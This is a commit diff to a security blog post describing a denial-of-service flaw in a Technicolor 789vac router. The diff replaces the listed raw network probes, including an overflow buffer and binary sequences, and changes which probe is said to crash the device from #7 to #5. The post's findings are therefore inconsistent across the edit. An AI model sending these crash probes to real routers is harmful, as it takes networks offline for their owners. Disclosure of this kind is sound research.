

Before and after one commit to kaisersource/kaisersource.github.io, a Jekyll site: the page built from _posts/2025-01-15-technicolor_vulnerability.md, in a window 1280 px wide and 1400 px high, scrolled down 664 px. Shown: the whole window at 89% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2025-01-15-technicolor_vulnerability.md

````diff
--- a/_posts/2025-01-15-technicolor_vulnerability.md
+++ b/_posts/2025-01-15-technicolor_vulnerability.md
@@ -35,17 +35,11 @@ We filtered precisely the crashing cause by sending one by one and then crafted
 
 Here's the list of the probes collected:
 ```
-Probe #1: b'\x01\x00\x00\xfd\xce\xfa\x0b\xb0\xa0\x00\x00\x00MMS\x14\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x12\x00\x00\x00\x01\x00\x03\x00\xf0\xf0\xf0\xf0\x0b\x00\x04\x00\x1c\x00\x03\x00N\x00S\x00P\x00l\x00a\x00y\x00e\x00r\x00/\x009\x00.\x000\x00.\x000\x00.\x002\x009\x008\x000\x00;\x00 \x00{\x000\x000\x000\x000\x00A\x00A\x000\x000\x00-\x000\x00A\x000\x000\x00-\x000\x000\x00a\x000\x00-\x00A\x00A\x000\x00A\x00-\x000\x000\x000\x000\x00A\x000\x00A\x00A\x000\x00A\x00A\x000\x00}\x00\x00\x00\xe0m\xdf_'
-Probe #2: b'\x00\x00\x00\x1f\x00\x00\x00\x00\x00\x00\x00\x0cGetClassName\x00\x00\x00\x02\x04\x00\x00\x00\x00\x01\x00'
+Probe #1 BOF: b'\x41' * 10000
+Probe #2 Unexpected input from another protocol: b'GET / HTTP/1.1\r\nHost: 192.168.1.1\r\n\r\n'
 Probe #3: b'\r\n\r\n'
-Probe #4: b'GET / HTTP/1.0\r\n\r\n'
-Probe #5: b'OPTIONS / HTTP/1.0\r\n\r\n'
-Probe #6: b'OPTIONS / RTSP/1.0\r\n\r\n'
-Probe #7: b'\x80\x00\x00(r\xfe\x1d\x13\x00\x00\x00\x00\x00\x00\x00\x02\x00\x01\x86\xa0\x00\x01\x97|\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
-Probe #8: b'\x00\x1e\x00\x06\x01\x00\x00\x01\x00\x00\x00\x00\x00\x00\x07version\x04bind\x00\x00\x10\x00\x03'
-Probe #9: b'\x00\x0c\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00'
-Probe #10: b'HELP\r\n'
-Probe #11: b'\x16\x03\x00\x00S\x01\x00\x00O\x03\x00?G\xd7\xf7\xba,\xee\xea\xb2`~\xf3\x00\xfd\x82{\xb9\xd5\x96\xc8w\x9b\xe6\xc4\xdb<=\xdbo\xef\x10n\x00\x00(\x00\x16\x00\x13\x00\n\x00f\x00\x05\x00\x04\x00e\x00d\x00c\x00b\x00a\x00`\x00\x15\x00\x12\x00\t\x00\x14\x00\x11\x00\x08\x00\x06\x00\x03\x01\x00'
+Probe #4 Enumeration: b'\x69\x70\x65\x72\x66\x20\x2d\x76\x00'
+Probe #5 unexpected binary sequence: b'\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01'
 ```
 
 Probe scraping:
@@ -70,7 +64,7 @@ for i, probe in enumerate(probes, start=1):
     print(f"Probe #{i}: {probe}")
 ```
 
-The probe #7 is the chosen one that leads Techicolor 789vac failure. The Router becomes unreachable from every service.
+The probe #5 is the chosen one that leads Techicolor 789vac failure. The Router becomes unreachable from every service.
 ```
 64 bytes from 192.168.1.1: icmp_seq=183 ttl=64 time=0.401 ms
 64 bytes from 192.168.1.1: icmp_seq=184 ttl=64 time=0.348 ms
````
